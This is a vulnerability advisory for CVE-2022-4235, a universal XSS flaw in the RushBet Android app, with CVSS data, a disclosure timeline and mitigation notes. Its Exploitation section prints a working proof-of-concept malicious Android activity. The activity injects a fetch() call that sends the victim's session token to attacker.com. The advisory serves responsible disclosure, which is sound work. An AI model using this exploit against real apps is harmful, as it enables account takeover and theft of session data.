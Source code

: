 ```yaml
---
slug: advisories/miller/
title: RushBet 2022.23.1-b490616d - Universal XSS
authors: Carlos Bello
writer: cbello
codename: miller
product: RushBet 2022.23.1-b490616d (UXSS)
date: 2023-01-10 12:00 COT
cveid: CVE-2022-4235
severity: 6.0
description: RushBet 2022.23.1-b490616d    -    Universal XSS (UXSS)
keywords: Fluid Attacks, Security, Vulnerabilities, Rushbet, UXSS
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | RushBet 2022.23.1-b490616d - UXSS                                  |
| **Code name**         | [Miller](https://en.wikipedia.org/wiki/Mac_Miller)                 |
| **Product**           | RushBet                                                            |
| **Affected versions** | Version 2022.23.1-b490616d                                         |
| **State**             | Public                                                             |
| **Release date**      | 2023-01-10                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Universal XSS                                                                                                               |
| **Rule**              | [429. Universal XSS (UXSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/429)                                     |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:L/AC:H/PR:L/UI:R/S:U/C:H/I:H/A:N                                                                                |
| **CVSSv3 Base Score** | 6.0                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-4235](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-4235)                                               |

## Description

RushBet version 2022.23.1-b490616d allows a remote attacker to steal
customer accounts via use of a malicious application. This is possible
because the application exposes an activity and does not properly validate
the data it receives.

## Vulnerability

This vulnerability occurs because the application exposes an activity
and does not properly validate the data it receives.

## Exploitation

To exploit this vulnerability, the victim must have a malicious
application installed with activity like the following:

### MainActivity.java

```java
package com.example.badapp;

import androidx.appcompat.app.AppCompatActivity;
import android.content.Intent;
import android.os.Handler;
import android.os.Bundle;
import android.net.Uri;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        Intent intent = new Intent("android.intent.action.VIEW");
        intent.setClassName("com.rush.co.rb","com.sugarhouse.casino.MainActivity");
        intent.setData(Uri.parse("https://rushbet.co/"));
        startActivity(intent);

        new Handler().postDelayed(() -> {
            intent.setAction("Action.EvaluateScript");
            intent.putExtra("KeyScript","fetch('https://attacker.com/sessionID/'+JSON.parse(sessionStorage.getItem('session-COP')).value);");
            startActivity(intent);
        }, 30000);
    }
}
```

Thus, when the victim opens the malicious app, the exploit will
be executed, thus hacking his account.

## Evidence of exploitation

<video width="835" height="505" controls>
    <source src="https://rb.gy/mlmsrv"
    type="video/mp4">
    <p>POC-Account-Takeover-Rushbet</p>
</video>

![PII-Account-Takeover-Rushbet](https://user-images.githubusercontent.com/51862990/204819582-d5f0b34a-0ec4-4413-ac40-bc06affd3ed1.png)

## Our security policy

We have reserved the CVE-2022-4235 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: RushBet 2022.23.1-b490616d

* Operating System: GNU/Linux

## Mitigation

An updated version of RushBet is available at the vendor page.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://www.rushbet.co>

## Timeline

<time-lapse
  discovered="2022-11-29"
  contacted="2022-11-30"
  replied="2022-12-03"
  confirmed="2022-12-03"
  patched="2022-12-14"
  disclosure="2023-01-10">
</time-lapse>
